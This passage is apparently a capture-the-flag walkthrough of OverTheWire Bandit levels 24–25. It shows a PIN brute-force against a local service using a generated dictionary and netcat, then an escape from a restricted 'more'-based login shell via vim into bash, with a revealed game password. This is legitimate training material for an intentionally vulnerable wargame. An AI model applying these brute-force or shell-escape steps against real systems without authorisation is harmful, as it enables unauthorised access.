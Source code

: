 ```bash
./pincode-dict-generator.sh dictionary.txt
```

With this new dictionary file and netcat, the pleasure is served

```bash
# We remove the lines with 'Wrong' and 'Please' to avoid overwhelm the terminal outputº
cat dictionary.txt | nc localhost 30002 | grep -eV "Wrong|Please"

# And now just wait until this message appears
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting
```

# Level 25

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

This level is to practice on the concept of 'jail shell', in this case we're going to take in advantage the `more` command the is using the actual bash of bandit26. If we take a look what bash this user have we must see:

```bash
cat /etc/passwd | grep bandit26
# bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
If we open the content of the showtext

cat /usr/bin/showtext
# #!/bin/sh

# export TERM=linux

# more ~/text.txt
#exit
```

Yeah, let's exploit this more with a jail shell. If you try to connect via ssh with the key we have in our home directory the connection into localhost is closed

```bash
ssh -i ./bandit26.ssh_key bandit26@localhost
# Connection to localhost is closed
```

Just move the terminal to be very minimal and try to connect via ssh, if you did this correctly, you should see a 'More 50% text' that is the pagination of the more command, from here we can spawn the vim code editor with the key 'v'.

From here just:

```bash
:set shell=/bin/bash

# and then
:shell
```
